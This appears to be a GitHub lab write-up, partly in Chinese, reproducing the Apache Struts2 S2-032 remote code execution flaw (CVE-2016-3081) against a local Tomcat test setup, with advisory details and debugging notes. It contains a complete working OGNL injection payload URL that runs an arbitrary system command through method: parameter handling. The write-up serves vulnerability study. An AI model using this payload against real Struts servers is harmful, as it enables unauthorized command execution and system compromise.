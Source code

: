 # S2-032 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible Remote Code Execution                               |
| Maximum security rating | High                                                         |
| Recommendation          | Disable Dynamic Method Invocation if possible. Alternatively upgrade to [Struts 2.3.20.3](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.20.3), [Struts 2.3.24.3](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.24.3) or [Struts 2.3.28.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.28). |
| Affected Software       | Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3) |
| Reporter                | Nike Zheng nike dot zheng at dbappsecurity dot com dot cn    |
| CVE Identifier          | CVE-2016-3081                                                |

## Problem

`Struts2`在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行`OGNL`表达式计算，导致远程命令执行漏洞。

## Environment

| Struts2 Version | struts-2.3.24          |
| --------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC

![{AD9137BC-90B4-46DE-9213-2E79311142E0}_20200724105139]({AD9137BC-90B4-46DE-9213-2E79311142E0}_20200724105139.jpg)

Payload: 

```java
http://localhost:8080/s2_032_war_exploded/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=calc
```

## Debug

类似于`S2-016`，首先在`DefaultActionMapper`类中处理`method:`处下个断点：

`s2-032/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/mapper/DefaultActionMapper.class:52`

<img src="{178585E3-B3AB-45A1-B0C7-ECC39C2BD274}_20200724112506.jpg" alt="{178585E3-B3AB-45A1-B0C7-ECC39C2BD274}_20200724112506" style="zoom:150%;" />

然后一直点击调试栏红色X的按钮回到`struts2`初始过滤器`StrutsPrepareAndExecuteFilter`，剩下的就和S2-016一样咯。

## Reference

- [S2-032](https://cwiki.apache.org/confluence/display/WW/S2-032)
- [S2-032 远程代码执行漏洞（CVE-2016-3081）]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-032/README.zh-cn.md)
- [struts2漏洞中关于动态方法调用的一点思考](https://blog.csdn.net/zzkk_/article/details/77159524)

